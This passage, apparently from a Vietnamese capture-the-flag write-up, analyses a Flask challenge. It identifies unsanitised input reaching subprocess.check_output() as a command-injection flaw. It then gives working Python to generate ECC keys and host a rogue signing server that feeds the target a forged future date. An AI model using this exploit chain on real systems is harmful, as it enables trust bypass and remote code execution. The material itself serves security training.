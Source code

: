 3. @app.route('feature'): có thể thấy form `text` không hề được sanitize trước khi đưa vào `subprocess.check_output()`, do đó tại đây chúng ta có thể khai thác lỗ hổng cmd injection để đọc file bất kì hoặc rce tùy thích

Kết luận: chúng ta có thể thao túng validation_server thông qua `debug=true` và cookie `preferences`, sau đó lợi dụng cmdj để rce 

### exploit

1. Tạo privkey và pubkey trong đó privkey để kí và pubkey để verify

```
from Crypto.PublicKey import ECC

key = ECC.generate(curve='P-256')

with open('pubkey', 'wb') as f:
    f.write(key.public_key().export_key(format='PEM').encode('utf-8'))

with open('privkey', 'wb') as f:
    f.write(key.export_key(format='PEM').encode('utf-8'))
```
2. host 1 con server có chứa 2 route `/` và `/pubkey` , trong đó route `/` chứa date được kí với thời gian sau `NEW_FEATURE_RELEASE`, ở đây mình cho nó 14 ngày luôn
```
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

def load_private_key():
    with open('privkey', 'rb') as f:
        return ECC.import_key(f.read())

key = load_private_key()

def generate_date_and_sign(date):
    h = SHA256.new(date.encode('utf-8'))
    signer = DSS.new(key, 'fips-186-3')
    signature = signer.sign(h)
    return date, signature.hex()

@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return key.public_key().export_key(format='PEM'), 200, {'Content-Type': 'text/plain; charset=utf-8'}

@app.route('/', methods=['GET'])
def generate_signed_date():
    date = int(time.time()) + 14 * 24 * 60 * 60
    date, signature = generate_date_and_sign(str(date))

    return jsonify({
        'date': date,
        'signature': signature
    })

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```
